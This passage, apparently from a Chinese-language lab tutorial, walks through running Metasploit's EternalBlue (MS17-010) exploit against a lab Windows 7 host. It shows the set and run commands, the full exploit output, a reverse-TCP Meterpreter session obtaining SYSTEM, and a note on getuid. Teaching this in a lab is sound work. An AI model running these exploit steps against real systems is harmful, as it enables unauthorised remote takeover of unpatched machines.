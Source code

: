 ```shell-session
msf6 exploit(windows/smb/ms17_010_eternalblue) > set RHOSTS 10.10.10.40

RHOSTS => 10.10.10.40
```

然后，我们可以运行漏洞并查看它返回的内容。查看以下输出中的差异：

```shell-session
msf6 exploit(windows/smb/ms17_010_eternalblue) > run

[*] Started reverse TCP handler on 10.10.14.15:4444 
[*] 10.10.10.40:445 - Using auxiliary/scanner/smb/smb_ms17_010 as check
[+] 10.10.10.40:445       - Host is likely VULNERABLE to MS17-010! - Windows 7 Professional 7601 Service Pack 1 x64 (64-bit)
[*] 10.10.10.40:445       - Scanned 1 of 1 hosts (100% complete)
[*] 10.10.10.40:445 - Connecting to target for exploitation.
[+] 10.10.10.40:445 - Connection established for exploitation.
[+] 10.10.10.40:445 - Target OS selected valid for OS indicated by SMB reply
[*] 10.10.10.40:445 - CORE raw buffer dump (42 bytes)
[*] 10.10.10.40:445 - 0x00000000  57 69 6e 64 6f 77 73 20 37 20 50 72 6f 66 65 73  Windows 7 Profes
[*] 10.10.10.40:445 - 0x00000010  73 69 6f 6e 61 6c 20 37 36 30 31 20 53 65 72 76  sional 7601 Serv
[*] 10.10.10.40:445 - 0x00000020  69 63 65 20 50 61 63 6b 20 31                    ice Pack 1      
[+] 10.10.10.40:445 - Target arch selected valid for arch indicated by DCE/RPC reply
[*] 10.10.10.40:445 - Trying exploit with 12 Groom Allocations.
[*] 10.10.10.40:445 - Sending all but last fragment of exploit packet
[*] 10.10.10.40:445 - Starting non-paged pool grooming
[+] 10.10.10.40:445 - Sending SMBv2 buffers
[+] 10.10.10.40:445 - Closing SMBv1 connection creating free hole adjacent to SMBv2 buffer.
[*] 10.10.10.40:445 - Sending final SMBv2 buffers.
[*] 10.10.10.40:445 - Sending last fragment of exploit packet!
[*] 10.10.10.40:445 - Receiving response from exploit packet
[+] 10.10.10.40:445 - ETERNALBLUE overwrite completed successfully (0xC000000D)!
[*] 10.10.10.40:445 - Sending egg to corrupted connection.
[*] 10.10.10.40:445 - Triggering free of corrupted buffer.
[*] Sending stage (201283 bytes) to 10.10.10.40
[*] Meterpreter session 1 opened (10.10.14.15:4444 -> 10.10.10.40:49158) at 2020-08-14 11:25:32 +0000
[+] 10.10.10.40:445 - =-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=
[+] 10.10.10.40:445 - =-=-=-=-=-=-=-=-=-=-=-=-=-WIN-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=
[+] 10.10.10.40:445 - =-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=


meterpreter > whoami

[-] Unknown command: whoami.

meterpreter > getuid

Server username: NT AUTHORITY\SYSTEM
```

​	该提示不是 Windows 命令行提示，而是`Meterpreter`提示符。通常用于 Windows 的命令`whoami`在这里不起作用。相反，我们可以使用 Linux 等效的`getuid`. 探索`help`菜单让我们更深入地了解 Meterpreter 有效载荷的能力。
